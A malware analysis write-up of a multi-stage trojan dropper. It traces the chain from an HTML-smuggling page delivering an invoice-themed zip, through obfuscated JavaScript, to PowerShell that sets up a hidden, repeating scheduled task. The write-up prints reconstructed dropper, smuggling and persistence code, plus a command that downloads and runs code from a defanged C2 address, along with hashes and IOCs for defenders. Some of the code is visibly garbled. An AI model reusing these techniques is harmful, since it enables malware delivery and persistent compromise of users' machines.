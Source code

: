 ```yaml
---
title: Generic Trojan Dropper
published: true
---
```


# STAGE 1:
	`064ee9cc4256a4e004d3c6e74e1a4cc2d686f82a7e22640aa718167b5af40a29  ./sample.html `

this is a HTML file containing the javascript code that drops a zip file,
we can see in the body section it's the payload that is encrypted, the id is `jzasjnpc` & class is `bwkytcnl`.
this is the excrypted zip file, first it's getting converted from base64 & then xor & then base64 decoded again.
the xor key for this zip payload is `so83fnguk42vuluw82syq55zhqqf3qm9sznw3skkxdfbcj2fjy1zbi6t4wn89m8kafg1kvi04dppc1q5xye8zzxo4k6utjrwwsc2f59khfmzkvycg8qxwl36asncitbj`,

```html
<body>
	<main class="bwkytcnl" id="jzasjnpc" data="JipLdyQsNjEqdXM/NCo/QEleEiA9UUYjQzcGJ3IhB3AyOy8ScjIqKiwzIFcuPnMSJxNwAy8QBz5WGTROWDp2By0zNUcyRT9kVTMUBS9cAU8uM....
```
name of the zip file is `May10-2023-Invoice-DocuSign.zip`

this is the procedure that generates the zip file, and in the end that object is executed
```javascript
	function extract_zip(input_url_var, 512)
	{

		var array_new = [];
		var fromb64input_data = atob_fromB64(input_url_var);
		for(var i = 0; i < fromb64input_data.length; i += 512)
		{
			var sliced = fromb64input_data.slice(i, i + 512);
			var sliced_array = new this[array](sliced.length);
			for(var i = 0; i < sliced.length; i++)
			{
				sliced_array[i] = sliced.charCodeAt(i);
			}
			var out_zip = new this[Uint8Array](sliced_array);
			array_new.push(out_zip);
		}
		var zip_data = new this[blob](array_new, {type: octet/stream});
		return zip_data;
	}
	
	function zip_create(zip_data)
	{
		let zip_name = "May10-2023-Invoice-DocuSign" + ".zip";
		let file_obj = new this[file]([zip_data], zip_name, {type: application/zip});
		let file_obj_url = this[URL][createObjectURL](file_obj);
		var createElement_a = document.createElement("a");
		document.body.appendChild(createElement_a);
		createElement_a.setAttribute(href,file_obj_url);
        		createElement_a[download] = zip_name;
                createElement_a.click();
		this[URL][revokeObjectURL](file_obj_url);
	}
```

# STAGE 2:
	`a36c8ea0188ddc3ed8f06c8e352bb314bc222fef6f9baeb211cd97ac62462dec  May10-2023-Invoice-DocuSign.zip`

this zip file contains a javascript file.
	`44737c01c93b96afcbb96c0b38993594d29a0a07d625999ef503c8424da90b0e  ./May10-2023-Invoice-DocuSign.js`

this javascript file contains 4 strings, after concatinating them and after removing "s" & "V" chars & then converting from hex,
gets us another javascript. this is the procedure of that
```javascript
	temp = STR_4.replace(/[sV]/g,'');
	var ooqajrjz = "";
	for (var i=0;i<temp.length;i+=2)
	{
		ttjqepbj = temp.substr(i,2);
		ooqajrjz += str_from_char_code(kmbvxuoa(ttjqepbj, 16));
	}
```

# STAGE 3:
this javascript produces a powershell script that is run after 10 seconds of sleep, poweshell script is split by "!" and converted from base64.
```javascript
var payload = ' < payload string > '

var split_payload = xhhwtarcadepz(payload).split('!');

Win = new this[split_payload[4]](split_payload[1]);

Win.PopUp('This document is corrupt.', 10, 'ERROR', 48);

var yjdednyw = new Date();

while (true) {
	WScript.Sleep(10);
	var qhchhvwd = new Date();

	if (qhchhvwd - yjdednyw > 774720) {
		Win[split_payload[3]](split_payload[2], keCarthagedf);
		break;
	}
};

```

# STAGE 4:
this poweshell script decodes some byte arrays using xor that is information about the scheduled task.
this script will write a file to `C:\Users\<user>\AppData\Local\Microsoft\WindowsPowershell\<executingScript.vbs>`

```js
$rERbWtRv = [Convert]::FromBase64String(${isWABlOEp})

$bytes = Get-Variable -ValueOnly -Name '5EVLS'
$bytes.writeallbytes.Invoke(${NynG}, ${ReRBwTRV})

$askzpHUpAj = (pwd).ToString() + '\'

$vQpSBXgyj = &(cd $JtATCAR)

$tkqrmLSfPD = '"' + (loopFunc([System.Byte[]]@(0x22,0x2e,0x33,0x6b,0x63,0x22,0x3c,0x39,0x6b,0x66,0x3e,0x38,0x2e,0x29,0x6b)) 75) + "$iZZoO$suqqSiGL/$vQpsbXGyj)" + '"'

$eRQcf = Start-Sleep -Seconds $TkQRmlsFpD

$tpNDJPwAa = New-ScheduledTaskPrincipal $UJrw

$aIufdyWasr = Register-ScheduledTask -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 365)

$dwtTAWqx = New-ScheduledTaskSettingsSet -Hidden -MultipleInstances Parallel -AllowStartIfOnBatteries

Register-ScheduledTask -TaskName ${WbWmgQb} -Action ${eRQcf} -Trigger ${aIufdyWasr} -Settings ${dwtTAWqx}

```

The persistent VBS is merely a WScript command to run PowerShell, and it uses parameters for the C2 from the scheduled task command.
```vb
c = WScript.Arguements(0)
set s = CreeateObject("WScript.shell")
s.Run "Powershell.exe -exec bypass" & c, 0
```

this scheduled task is running approx every minute, & it runs thar vbs script with the C2 information as arguements.
```
C:\Users\<user>\AppData\Local\Microsoft\WindowsPowershell\<executingScript.vbs> "iex(iwr -useb http://159.65.42[.]223/r/idm/148F4423C27E506D)"
```

# IOCs

1. 159.65.42[.]223:80